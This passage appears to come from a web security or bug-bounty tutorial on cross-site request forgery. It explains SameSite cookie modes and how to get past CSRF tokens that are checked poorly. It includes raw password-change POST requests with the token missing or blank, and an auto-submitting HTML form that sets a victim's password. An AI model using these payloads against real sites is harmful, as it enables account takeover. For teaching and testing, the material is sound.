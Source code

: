 This attribute can be set as strict or lax. When set as strict, the browser will not send the cookie with any HTTP request that doesn't originate from the site. This includes even simple HTTP request that doesn't originate from the site. For example, if you were logged into Amazon and it used strict samesite cookies, the browser would not submit your cookies if you were following a link from another site. Also, Amazon would not recognize you as logged in until you visited another Amazon web page and the cookies were then submitted. lax value instead istructs browsers to send cookies with initial request. This support the design principle that initial request should never alter data on the server side.

## Bypass CSRF Tokens Stored on the Server  

But what if the site implements CSRF protection via tokens in a wrong way? Here are a few more things that you can try.  

Just because a site uses CSRF tokens doesn’t mean it is validating them  
properly. You could still achieve CSRF with a few modifications of your malicious HTML page.

First, try deleting the token parameter or sending a blank token param-  
eter. For example, this will send the request without a csrf_token parameter:  

	POST /password_change  
	Host: email.example.com  
	Cookie: session_cookie=YOUR_SESSION_COOKIE  
	
	(POST request body)  
	new_password=abc123  

You can generate this request with an HTML form like this:  

```html
<html>  
	<form method="POST" action="https://email.example.com/password_change" id="csrf-form">  
		<input type="text" name="new_password" value="abc123">  
		<input type='submit' value="Submit">  
	</form>  
	<script>document.getElementById("csrf-form").submit();</script>  
</html>
```

This next request will send a blank csrf_token parameter:  

	POST /password_change  
	Host: email.example.com  
	Cookie: session_cookie=YOUR_SESSION_COOKIE  
	
	(POST request body)  
	new_password=abc123&csrf_token=

Deleting the token parameter or sending a blank token often works  
because of a common application logic mistake. Applications sometimes  
check the validity of the token only if the token exists, or if the token  
parameter is not blank.